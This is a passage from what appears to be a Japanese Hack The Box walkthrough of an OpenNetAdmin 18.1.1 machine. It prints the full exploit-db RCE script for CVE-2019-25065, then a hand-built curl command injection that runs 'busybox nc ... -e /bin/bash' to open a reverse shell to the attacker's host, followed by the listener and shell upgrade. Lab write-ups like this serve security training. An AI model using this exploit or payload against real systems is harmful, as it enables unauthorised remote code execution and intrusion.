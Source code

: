 

## STEP 3
opennetadmin 18.1.1 には CVE-2019-25065 が存在しRCEの脆弱性がある  
searchsploitでPoCを発見
```sh
└─$ searchsploit -m 47691
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
    Codes: N/A
 Verified: False
File Type: ASCII text
Copied to: /home/kali/htb/47691.sh
```
PoCの使い方はURLを引数にする必要あり  
ただリバースシェルをとるのではなく毎度コマンドをRCEで実行しているぽい、手動でエクスプロイト
```sh
└─$ cat 47691.sh                                                   
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
PoCのcurlをぱくって、RCE
```sh
└─$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";busybox nc 10.10.14.70 4444 -e /bin/bash;echo \"END\"&xajaxargs[]=ping" http://10.129.5.45/ona/login.php 
^C
```
リバースシェル取得  
がユーザフラグすら権限拒否
```sh
└─$ nc -lnvp 4444  
listening on [any] 4444 ...
connect to [10.10.14.70] from (UNKNOWN) [10.129.5.45] 32810

python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@openadmin:/opt/ona/www$ ^Z
zsh: suspended  nc -lnvp 4444

└─$ stty raw -echo; fg
```